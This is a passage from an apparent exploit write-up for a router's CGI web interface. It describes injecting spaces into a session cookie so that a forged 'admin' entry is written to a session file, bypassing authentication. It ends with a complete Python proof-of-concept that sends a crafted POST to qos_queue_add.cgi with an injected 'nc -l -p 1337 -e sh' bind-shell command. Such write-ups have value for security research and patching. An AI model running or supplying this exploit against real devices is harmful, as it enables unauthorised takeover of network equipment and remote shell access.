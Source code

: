 If we inject spaces into our cookie, we can inject fields into this, with a cookie like this:
```
192.168.1.5 admin 0 
```
it will be written into the file like:
```
0 192.168.1.5 admin 0 NULL 0
```
When it is later read back out on a second request, we will have injected the admin username leading to the authentication bypass.
### Exploit plan
1. Create a request, to create this file (with malicious session)
2. Send a POST request with our payload, and the malicious session
3. It will now parse the fake `admin` we inserted, logging us in
4. The post request will contain the reverse shell
5. ???
6. GG

# Final Proof-of-Concept script
```python
from pwn import *
import urllib.parse
import requests
import sys

host_ip = sys.argv[1]

r=requests.get("http://192.168.1.1/qos_queue_add.cgi", cookies={"session":f"{host_ip} admin 0"})
print(r.text)
io = remote("192.168.1.1", 80)

query = "nc -l -p 1337 -e 'sh'"

query_url_enc = urllib.parse.quote(query)

req = f"""POST /qos_queue_add.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 159
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html, /
X-Requested-With: XMLHttpRequest
If-Modified-Since: 0
Expires: 0
Origin: http://192.168.1.1/
Referer: http://192.168.1.1/indexMain.cgi
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session={host_ip} admin 0
Connection: close

Submit=Apply&WebQueueActiveCfg=Active&QueueObjectIndex=1&QueueNameTxt=WAN_Default_Queue&WebQueueInterface=WAN;{query_url_enc};&WebQueuePriority=3&WebQueueWeight=1&WebQueueRate=""".encode()

print(req)

io.send(req)
io.close()

sleep(1)
```

[0]: https://en.wikipedia.org/wiki/Common_Gateway_Interface